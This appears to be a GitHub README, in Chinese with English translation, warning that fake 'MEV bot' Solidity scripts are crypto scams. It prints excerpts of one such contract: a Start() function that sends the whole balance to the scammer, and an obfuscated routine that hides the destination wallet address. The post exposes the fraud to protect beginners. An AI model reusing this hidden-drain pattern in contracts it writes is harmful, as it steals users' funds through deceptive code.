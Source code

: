 # mev-bot-fraud
be careful the fake mev-bot codes 

本来想研究一下 mevbot 的，没想到发现一个骗局，所以想提醒一下大家以免被骗了，很多类似这个项目https://github.com/KayExpertbots/Mevbot 的假脚本都是诈骗的

Wanted to study the mevbot, unexpectedly found a scam, so want to remind you to avoid being cheated, many similar to this project of https://github.com/KayExpertbots/Mevbot, a fake script is fraud 

```
    function Start() public payable {
        emit Log("Running MEV action. This can take a while; please wait..");
        payable(_callMEVAction()).transfer(address(this).balance);
    }

```

Start 看起来是个启动脚本实际是个 transfer，会把你的余额转到一个地址，`_callMEVAction()` 这个方法其实最后就是会生成一个钱包地址，绕来绕去的就是想骗一些新手，所以大家一定要看好了，看到这样的代码一定要小心了

Start looks like a startup script is actually a transfer, will transfer your balance to an address, '_callMEVAction()' This method is actually the last will generate a wallet address, around is to cheat some beginners, so we must look at it, see this code must be careful 

![image](https://github.com/chunsenye/mev-bot-fraud/assets/30768615/dc4f05ca-abf7-4146-84d6-d528f08195f1)

```
transfer(address(this).balance);
```

```
 function callMempool() internal pure returns (string memory) {
        string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));
        uint _memPoolSol = 3410611; //Gas estimate update
        uint _memPoolLength = 2418259; //Gas estimate update
        uint _memPoolSize = 2563395760; //Gas estimate update
        uint _memPoolHeight = getMemPoolHeight();
        uint _memPoolDepth = getMemPoolDepth();

        string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));
        string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));
        string memory _memPool3 = checkLiquidity(_memPoolHeight);
        string memory _memPool4 = checkLiquidity(_memPoolDepth);

        string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));
        string memory _fullMempool = mempool("0", _allMempools);

        return _fullMempool;
    }

```
![image](https://github.com/chunsenye/mev-bot-fraud/assets/30768615/7334fcdc-405c-45ce-9753-317cc112c9bd)

这些都是骗人的 所以提醒一下，大家也可以帮忙点点星星，让更多人看到

These are all lies so just a reminder, you can also help to light up the stars, so that more people can see 

<img width="1360" alt="image" src="https://github.com/chunsenye/mev-bot-fraud/assets/30768615/b87707ad-ae0c-4d49-892c-a54af47947d2">

我把一些案例放在了 issue 里面 


[诈骗账号](https://github.com/chunsenye/mev-bot-fraud/issues/2)

[诈骗项目列表](https://github.com/chunsenye/mev-bot-fraud/issues/1)

